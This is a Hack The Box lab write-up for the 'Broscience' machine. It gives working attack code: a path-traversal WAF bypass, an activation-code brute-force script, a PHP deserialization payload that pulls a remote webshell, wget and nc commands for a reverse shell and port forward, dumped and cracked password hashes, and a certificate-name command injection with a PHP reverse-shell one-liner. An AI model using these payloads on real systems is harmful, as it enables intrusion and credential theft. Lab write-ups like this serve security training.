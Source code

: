 ```yaml
---
layout: default
title: Broscience
author: k0z4c 
tags: hackthebox
---
```


## **Finding the Bro**

Scanning the box gives us a mimal attack surface 

![]({% link assets/htb/broscience/nmap.png %})

An authenticated area is found with the chance to register an user but an activation code is needed... 
Looking for some file not indexed within the application the activate.php endpoint is found 

```bash
gobuster dir -u https://broscience.htb -w /usr/share/seclists/Discovery/Web-Content/big.txt -k -x .php
```

![]({% link assets/htb/broscience/gobuster.png %}) 

Poking again  around the web app on 443 an interesting parameter is busted

_https://broscience.htb/includes/img.php?path=**shoulder_press.jpeg**_

After some fuzzing  it turns out that the waf check can be easily bypassed through the encoding of '/'

We can then dump all the source code
```bash
https://broscience.htb/includes/img.php?path=..%252factivate.php
```

and get the algorithm for activation's codes generation 
```bash
https://broscience.htb/includes/img.php?path=..%252fincludes/utils.php
```

```php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
```


now we can script all of this 

```bash
#!/usr/bin/env /bin/bash 
shopt -s nocasematch

if [ $# -lt 1 ]; then 
	echo "./exploit.sh username to register";
	exit
fi

username=$1

echo "[*] registering account $username..."; 
data=$(curl -s -k https://broscience.htb/register.php -d "username=$username&email=$username%40gmail.com&password=password123&password-confirm=password123");

if echo $data | grep -o -i "Username is already taken"; then exit; fi

echo "[*] creating a list of activation codes..";
/usr/bin/php /home/kali/broscience/gencode.php > codes.lst;

echo "[*] bruteforcing activation..."; 
for line in $(cat codes.lst); do 
	echo "[*] trying $line...";
	data=$(curl -s -q -k --proxy http://127.0.0.1:8080 "https://broscience.htb/activate.php?code=$line");
	if  [[ $data =~ activated ]]; then
		echo "[+] Account activated!";
		exit; fi
done; 
```

*gencode.php*

```php
 <?php
function generate_activation_code($t) {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    //srand(time());
    srand($t);
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

$seconds = 100;
$t = time();

for($j = 0; $j <= $seconds; $j++) {
        echo generate_activation_code($t - $j) . "\n";
}
?>
```

![]({% link assets/htb/broscience/activated.png %})

## The foothold

After log in, a cookie called user-prefs is set 
```sh
user-prefs=Tzo5OiJVc2VyUHJlZnMiOjE6e3M6NToidGhlbWUiO3M6NDoiZGFyayI7fQ%3D%3D
```

which decoded in a serialized php object originating from the UserPrefs class
```
{O:9:"UserPrefs":1:{s:5:"theme";s:4:"dark";}
```

Looking through the downloaded sources a vulnerable AvatarInterface class  with the *__wakeup* magic method is spotted 

```php

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
```


The deserialization is then easily exploited through the following, 

```php
<?php

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$a = new AvatarInterface();
$a -> imgPath = '/var/www/html/images/kozac_is_hot.php';
$a -> tmp = 'http://10.10.14.212/kozac_is_hot.php';

echo serialize($a) . "\n";
echo "payload: " . urlencode(base64_encode(serialize($a)));
?> 
```

which it's gonna pull a remote webshell on the host. To make the connection more stable, a reverse shell is dropped with 
```
 https://broscience.htb/images/kozac_is_hot.php?cmd=wget%20http://10.10.14.212/p.php
 https://broscience.htb/images/kozac_is_hot.php?cmd=php%20p.php
 ```

![]({% link assets/htb/broscience/revshell.png %})

### Pivoting on the DBMS 

Using the creds found in *db_connect.php*, a local port forward is performed to expose the DBMS

```bash 
 mknod kozac p 
 while :; do nc -lnp 3333  < /tmp/kozac | nc 127.0.0.1 5432 >  /tmp/kozac; done 
```

Credentials are then dumped from the users table and organized with 

```bash
cat dump.txt | cut -d'|' -f2,3 | tr '|' ':' | sed -E 's/\s+//g' | sed  's/$/:NaCl/g'  > hashes
```

so  that hashcat can be fed and the passwords cracked  - md5($salt, $password) , as detailed in the sources
```bash
hashcat  --username -a 0 -m 20 /home/kali/broscience/hashes/hashes --show
```
```
bill:13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
michael:bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:2applesplus2apples
dmytro:5d15340bded5b9395d5d14b9c21bc82b:NaCl:Aaronthehottest // another player... 
kozac:62d19f7e7ddcb5946728776d25e410ed:NaCl:password // here me !
```

Bill's account is the same on the system 

![]({% link assets/htb/broscience/billaccount.png %})

## Privesc 

Looking around a process looking for broscience.crt within /home/bill/Certs is spotted 

![]({% link assets/htb/broscience/certs.png %})

There's a command injection weakness whithin the renew_cert.sh script 
```bash
/bin/bash -c "mv /tmp/temp.crt /home/kali/Certs/$commonName.crt"
```

The weakness is reachable and exploitable so the script is vulnerable.
The exploit is coded through the following  

```bash
#!/bin/bash
# chmod a+x kozac.sh
# php -r '$sock=fsockopen("10.10.14.212",8888);exec("/bin/sh -i <&3 >&3 2>&3");'

# /home/bill/Certs/broscience.crt

commonName='pwned.crt && /tmp/kozac.sh #'
faketime 'last friday 5 pm' /bin/openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 1 <<<"$country
$state
$locality
$organization
$organizationUnit
$commonName
$emailAddress
" 2>/dev/null
```

After placing the reverse shell in tmp and the malicious certificate within bill/certs a root reverse shell is activated
and the box pwned

![]({% link assets/htb/broscience/root.png %})

